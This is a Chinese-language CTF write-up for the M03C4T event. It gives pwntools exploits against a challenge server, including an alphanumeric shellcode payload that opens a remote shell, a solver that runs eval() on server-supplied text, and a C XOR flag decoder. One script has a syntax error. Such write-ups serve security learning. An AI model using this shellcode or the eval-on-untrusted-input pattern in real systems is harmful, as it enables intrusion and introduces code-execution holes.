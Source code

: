 ```yaml
---
title: M03C4T小部分WP
description: 部分的wp
---
```


# Pwn

## 测测need nc

在linux或者kali里面打开命令行面板，直接nc题目给的地址，可以得到flag

![](images/1.png)

## 计算题罢了

因为没有给任何附件，先nc一下，可以发现就是计算加减法，然后回答正确就可以了，通过pwntools和python来编写exp获得后门，解得flag

![](D:\phpstudy_pro\WWW\wp\pwn_buu\image\2023-11-04-18-18-49-image.png)

### EXP

```py
from pwn import *
io = remote("20.121.143.21", 10000)
for i in range(100):
    io.recvuntil("-------\n")
    data = io.recv().strip().decode()
    expression = data.strip().split('=')[0]
    result = eval(expression)
    io.sendline(str(result))
    io.recvline()
    print(expression, result)
io.interactive()
```

![](D:\phpstudy_pro\WWW\wp\pwn_buu\image\2023-11-04-18-28-49-image.png)

## shellcode

下载之后先checksec一下看看

![](D:\phpstudy_pro\WWW\wp\pwn_buu\image\2023-11-04-19-23-42-image.png)

再放进IDA里面查看一下，可以发现if（s[i]<=47||s[i]>122）{}主要是因为这一句我们读出了这个可见字符串地要求，该是属于字母、数字这些范围。

此处使用 alpha3-master 来将我们的 shellcode 进行可见字符化

### EXP

```py
from pwn import *
io = remote("20.121.143.21", 10003)
context(os='linux', arch='amd64', log_level='debug'
shellcode = b'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
io.send(shellcode)
io.interactive()
```

# Reverse

## 很简单的xor

一样在IDA反汇编一下，可以发现就是v4和v5之间进行异或就可以得到flag，直接跑脚本就好了

```c
#include<stdio.h>
#include <stdlib.h>
int get_length(char str[])
{
    char *p = str;
    int count = 0;
    while (*p++ != '\0')
    {
        count++;
    }
    return count;
}
int main()
{
    char a[] = {0x41, 0x67, 0x34, 0x0, 0x69, 0x24, 0x78, 0x58, 0x62, 0x64, 0x5, 0x45, 0x81, 0x27, 0x61, 0x91, 0x95, 0x42, 0x27, 0x36, 0x91, 0x4, 0x2, 0x53, 0x92, 0x82, 0x21, 0x16, 0x18, 0x95};
    char b[] = {12, 87, 7, 67, 93, 112, 3, 12, 10, 85, 118, 26, -80, 84, 62, -91, -54, 52, 66, 68, -24, 91, 103, 41, -51, -38, 110, 68, 57, -24};
    char c[30];
    int x, y;
    x = get_length(c);
    y = get_length(b);
    for (int i = 0; i<30; i++){
        printf("%c", a[i] ^ b[i]);
        }
}
```

![](D:\phpstudy_pro\WWW\wp\pwn_buu\image\2023-11-04-19-34-43-image.png)

## 猜不透，根本猜不透

直接放进IDA，再f5反汇编就可以看到flag

![](D:\phpstudy_pro\WWW\wp\pwn_buu\image\2023-11-04-19-31-05-image.png)
